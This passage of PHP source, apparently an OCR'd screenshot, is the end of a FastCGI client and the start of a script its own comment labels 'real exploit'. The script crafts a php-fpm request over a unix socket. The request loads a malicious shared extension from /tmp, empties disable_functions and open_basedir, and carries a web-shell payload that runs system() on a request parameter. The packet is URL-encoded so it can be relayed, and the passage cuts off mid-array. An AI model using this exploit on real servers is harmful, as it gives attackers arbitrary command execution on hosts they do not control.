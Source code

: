 ```plain
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";    // 目标主机已知的 PHP 文件的路径
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';    // 啥也不是，不用管
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>";    // 啥也不是，不用管
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
```